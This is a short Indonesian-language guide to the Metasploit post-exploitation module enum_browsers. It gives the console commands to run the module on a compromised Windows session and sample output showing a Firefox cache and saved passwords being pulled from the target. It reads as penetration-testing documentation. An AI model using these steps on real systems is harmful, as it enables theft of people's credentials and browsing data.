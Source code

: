 # enum_browsers

Modul `enum_browsers` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan informasi terkait aktivitas `web browser` di komputer target, seperti `daftar situs yang pernah dikunjungi`, `kredensial yang disimpan`, serta `data autofill`. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memanfaatkan berbagai teknik untuk mengekstrak data dari browser populer seperti `Chrome`, `Firefox`, dan `Internet Explorer`, sehingga sangat berguna dalam tahap pengumpulan informasi sensitif pasca eksploitasi.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_browsers
set EXTRACT_CACHE true
set SESSION <ID>
set USER_MIGRATION true
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Targeting: admin-PC\admin (IP: 192.168.1.52)
[*] System Information: ADMIN-PC | OS: Windows 7 (6.1 Build 7601, Service Pack 1). | Arch: x64 | Lang: en_US
[*] Starting data extraction from user profile: C:\Users\admin
[*] 
[+] Found Mozilla Firefox (Version: 115.0.3)
[*] 409 cache files found for Mozilla Firefox, total size: 34931 KB
[*] └ Zipping progress: 10% (41/409 files processed)
[*] └ Zipping progress: 20% (82/409 files processed)
[*] └ Zipping progress: 30% (123/409 files processed)
[*] └ Zipping progress: 40% (164/409 files processed)
[*] └ Zipping progress: 50% (205/409 files processed)
[*] └ Zipping progress: 60% (246/409 files processed)
[*] └ Zipping progress: 70% (287/409 files processed)
[*] └ Zipping progress: 80% (328/409 files processed)
[*] └ Zipping progress: 90% (369/409 files processed)
[*] └ Zipping progress: 100% (409/409 files processed)
[*] └ Cache for Mozilla Firefox zipped to: C:\Users\admin\AppData\Local\Temp\kCQGAVrY.zip
[+] └ Cache extracted to /root/.msf4/loot/20250516125830_default_192.168.1.52_MozillaFirefox__308548.zip (27425464 bytes)
[+] └ Passwords extracted to /root/.msf4/loot/20250516125832_default_192.168.1.52_MozillaFirefox__141190.json (3 entries)
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[-] └ No extensions found for Mozilla Firefox.
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[*] Post module execution completed
```
